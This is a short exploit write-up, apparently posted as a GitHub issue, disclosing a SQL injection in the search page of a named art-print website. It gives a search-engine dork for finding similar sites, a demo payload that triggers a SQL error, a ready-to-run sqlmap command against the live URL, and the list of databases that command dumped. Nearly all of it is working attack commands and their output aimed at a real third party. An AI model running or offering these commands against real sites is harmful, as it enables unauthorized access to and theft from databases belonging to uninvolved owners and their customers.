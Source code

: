 # issue_20190602
PoC   sqlmap.py -u "http://haddadsfinearts.com/search.php?id=02" --text-only  --random-agent --dbs

# Exploit Title:Haddad's Fine SQL Injection
--------------------------------------------------------------------------------------------------------
# Date:29.05.2019
--------------------------------------------------------------------------------------------------------

# Dork :intitle:"Haddad's Fine Arts - Search"
--------------------------------------------------------------------------------------------------------

# Exploit Author:江苏天网计算机技术有限公司
--------------------------------------------------------------------------------------------------------

# Tested on:Windows &Kali Linux
--------------------------------------------------------------------------------------------------------

#Demo:

http://haddadsfinearts.com/search.php?id=02'
You have an error in your SQL syntax

--------------------------------------------------------------------------------------------------------


PoC 

sqlmap.py -u "http://haddadsfinearts.com/search.php?id=02" --text-only  --random-agent --dbs

[*] creativeart
[*] curatedimage
[*] giclee
[*] gicleephoto
[*] gicleestudio
[*] haddads
[*] haddadsfinearts
[*] information_schema
[*] mysql
[*] ofmaker
[*] performance_schema
[*] photo_canvas
[*] photocanvas
